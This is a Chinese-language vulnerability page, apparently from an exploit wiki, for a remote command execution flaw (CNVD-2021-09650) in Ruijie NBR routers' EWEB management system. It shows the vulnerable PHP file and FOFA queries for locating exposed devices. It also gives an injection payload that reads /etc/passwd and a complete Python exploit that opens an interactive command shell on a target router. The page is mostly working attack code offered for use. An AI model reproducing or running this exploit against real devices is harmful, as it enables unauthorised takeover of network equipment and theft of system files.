 # 锐捷NBR路由器 EWEB网管系统 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

> [!NOTE]
>
> 锐捷NBR路由器 EWEB网管系统

## FOFA

> [!NOTE]
>
> title="锐捷网络-EWEB网管系统"
>
> icon_hash="-692947551"

## 漏洞复现

![](http://wikioss.peiqi.tech/vuln/ruijie-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

出现漏洞的文件在 **/guest_auth/guestIsUp.php**

```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```

这里看到通过命令拼接的方式构造命令执行，

```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后访问页面 **/guest_auth/test.txt** 就可以看到命令执行的结果

![](http://wikioss.peiqi.tech/vuln/ruijie-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷网络-EWEB网管系统                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/guest_auth/guestIsUp.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "mac=1&ip=127.0.0.1| whoami > test_test.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 目标{}存在漏洞, 执行命令 whoami \033[0m".format(target_url))
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=target_url + "/guest_auth/test_test.txt", headers=headers, data=data, verify=False, timeout=5)
            print("\033[32m[o] 响应为： {} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/guest_auth/guestIsUp.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "mac=1&ip=127.0.0.1| {} > test_test.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        if response.status_code == 200:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=target_url + "/guest_auth/test_test.txt", headers=headers, data=data,verify=False, timeout=5)
            print("\033[32m[o] 响应为： \n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/ruijie-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 锐捷NBR路由器 EWEB网管系统 远程命令执行漏洞

![](http://wikioss.peiqi.tech/vuln/ruijie-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)




